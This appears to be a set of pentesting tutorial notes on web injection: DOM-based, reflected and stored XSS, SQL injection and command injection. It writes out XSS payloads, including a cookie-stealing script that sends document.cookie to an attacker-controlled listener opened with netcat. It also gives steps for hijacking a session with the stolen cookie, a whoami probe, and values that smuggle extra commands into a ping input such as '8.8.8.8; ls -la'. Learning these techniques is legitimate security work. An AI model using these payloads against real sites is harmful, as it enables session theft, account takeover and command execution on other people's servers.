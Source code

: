 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Injection

Occurs when we find a way of sending html, css, js code, database petitions and others, via a petition or URL of a website.

## <mark style="color:purple;">Cross-site Scripting</mark>

* XSS scripting allows execution of  maliciuos code of javascript or any client-side language

### DOM-based

The html document of a page can be mutated

#### Example

* The URL shows changes of a parameter

<pre class="language-html" data-overflow="wrap" data-line-numbers><code class="lang-html">&#x3C;!-- We select language in a slider and is reflected on url -->
http://url/?language=en

&#x3C;!-- Check html of page for script tags and document.write() functions-->
...
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>
...

&#x3C;!-- Use '> to close "value" parameter and then close tags -->
http://url?language='>&#x3C;/option>&#x3C;/select>   
&#x3C;!-- You will see all options of the slider are now displayed on screen -->

<strong>&#x3C;!-- Then create whatever tag -->
</strong>http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

&#x3C;!-- Abuse this to inject even js code -->
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTRY TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* When script tag is being filtered

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Use image tag, putting a bad source cause a error, we handle it with 'onerror' parameter that let us insert JS Code
http://url?language='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}

***

### Reflected:&#x20;

When URL or form parameters are displayed on screen of the page

#### Example:

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://url/?msg=Hello
# The site Return "Hello" in any part of the html
# Then we could do something like this to inject code
<strong>curl http://url/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We insert Hello in a formulary
# The site return "Hello" in any part of the html
# Then we could fill the form with code to inject
<strong>&#x3C;script>$payload&#x3C;/script>
</strong><strong>
</strong><strong>#Sometimes tag filter can be bypass using capital letters
</strong>&#x3C;SCRIPT>$payload&#x3C;/SCRIPT>

#Or using img tag
&#x3C;img src=x onerror='alert("HACKED")'/>
</code></pre>

***

### Stored:

The input of values is saved by the web and display to anyone who browse to the site. Maliciuos code in the same way will remain globally in the web site.

#### Example:

* A formulary show a list of entries

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert name and comment in the formulary
#Every time an insertion is done the website update a list with the entries that is displayed to every user
#Then we could fill the form to inject code
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

***

### Secret disclosure:

When the application shows _Stored XSS_ vulnerability, we could try to hijkack cookies such as sessions tokens that are being stored on client-side

#### Example:

* By normal in an accessed session you can go to _Inspect>Application>Cookies_ tab and check the values being stored

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```
Name               Value                              HttpOnly
...                ...                                ...
PHPIDSESSID        e15df96b271a9729837c2bb206b522c7
...                ...                                ...
```
{% endcode %}

{% hint style="info" %}
* `HttpOnly` tag unmarked, indicates that the cookie can interact with JavaScript code
* `PHPIDSESSID` is the default session cookie on php handled pages
{% endhint %}

***

{% hint style="info" %}
We can assume that is configurated this way and try to get the cookie values by force
{% endhint %}

***

* On host machine set up a listener port with netcat

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
nc -nlvp $port
```
{% endcode %}

***

* Make a cookie hijacking using the Stored XSS vulnerable part

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#Fill the form with the payload
<script>fetch("$IP:$port" + document.cookie);</script>
#This will get the information of the cookie values
```
{% endcode %}

{% hint style="info" %}
The `$IP` and `$port` values are from your machine and the port opened with _netcat_
{% endhint %}

***

* Once you have the cookie value go to the website page, go to _Inspect>Application>Cookies_ tab, set the cookie value and reload the page

```bash
Name               Value                             
...                ...                                
PHPIDSESSID        $hijackedCookie     #We set the cookie obtained   
...                ...
#This will log you in the session we stealed without need of credentials
```

***



## <mark style="color:purple;">SQL Injection</mark>

* Poisoning estructured database queries based on SQL with the user input
* To know more about this type of injection you can go [here](../../databases-attacks/sql-injection.md)



## <mark style="color:purple;">Command injection</mark>

* Abuse user inputs on page to execute commands on the server of an application

#### Example

* When internally is being used use the _system()_ function

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://url/? -d "cmd=whoami"
#Is possibly being handled by system() and will give the user on the response
```
{% endcode %}

#### Example 2:

* The aplication receive input for internal server commands

{% code overflow="wrap" lineNumbers="true" %}
```bash
#An aplication makes pings and recieve the IP as input
8.8.8.8 #Input
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Works like the following command inside
ping -c4 $input
```
{% endcode %}

***

* Abuse input to add other commands

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
#Try other options if is being filtered
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***

